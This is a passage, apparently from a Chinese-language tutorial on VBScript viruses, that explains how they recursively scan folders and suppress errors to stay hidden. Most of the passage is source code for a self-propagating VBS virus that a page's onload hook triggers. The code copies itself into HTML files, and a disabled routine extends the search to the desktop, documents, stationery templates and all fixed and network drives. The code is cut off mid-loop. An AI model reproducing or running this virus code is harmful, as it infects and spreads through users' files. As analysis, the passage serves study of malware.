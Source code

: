 ```vbscript
　　　scan( ) 
　　　scan(subfolder)
　　next
　　end sub
```

​         Vbs脚本病毒对于文件搜索的方式非常巧妙，通过递归的方式对整个大目录都完整地进行了一次便利，**并且搜索的文件也有一定的窍门：寻找非正常的后缀避免感染后破坏正常程序，导致病毒不再隐蔽。与此同时也保证了错误处理——错误直接跳过防止弹出报错窗口导致病毒暴露。一切的一切都是为了病毒传播的隐蔽性服务。**

## 3.Vbs病毒示例原理分析

```vbscript
<html>
	<head>
		<title>hello</title>
	</head>
	<body>
		hello，本文件寄生了一个大概需要xp中的ie才能运行的vbs病毒传播演示
	</body>
</html>

<!-- TimeStamp 12:30 A 不要改动这一行 -->

<script language="vbscript">

Set Window.Onload = GetRef("autohook")   ' 设置钩子

Const ForReading=1, ForWriting=2, ForAppending=8
Dim mignature   ' magic signature, 使用&以避免查找时混淆
    mignature = "TimeStamp " & "12:30"
Dim fso         '
Set fso = CreateObject("Scripting.FileSystemObject")
Dim sh          '
Set sh = CreateObject("WScript.Shell")
Dim mytext      ' mytext存放自己的代码，即从12:30开始的代码

Function autohook()
    getmytext()         ' 取得自己的代码文本
    if len(mytext) < 80 then
        msgbox mytext
        exit function   ' mytext的长度不大对头，算了
    end if
    StartSearchHTM()    ' 找html文件来传播
    'msgbox "hello"     ' 也可以做其他的事务
End Function

' 开始遍历各个目录和驱动器
Function StartSearchHTM()    ' 在指定的目录里找目标文件(html的)
    TravelDir("c:\30")       ' 这是个测试目录
    'StartSearchHTM_more()   ' ! 不要放开该行, 因为它要搜索整个硬盘
End Function
'
Function StartSearchHTM_more()   ' 更狠的
    TravelDir(sh.SpecialFolders("Desktop"))     ' 先在桌面上找找看
    TravelDir(sh.SpecialFolders("MyDocuments")) ' 再在文档夹里找
    'TravelDir(sh.SpecialFolders("Recent"))     ' 在你的最近使用的文件中找
    TravelDir(sh.SpecialFolders("Programs") & "\Common Files\Microsoft Shared\Stationery")
                                                ' 信纸模板
    dim dc, drv          '
    set dc = fso.Drives  ' drivers collect
    for each drv in dc
        if drv.DriveType=2 or drv.DriveType=3 then ' type: fixed, network
            TravelDir(drv)
```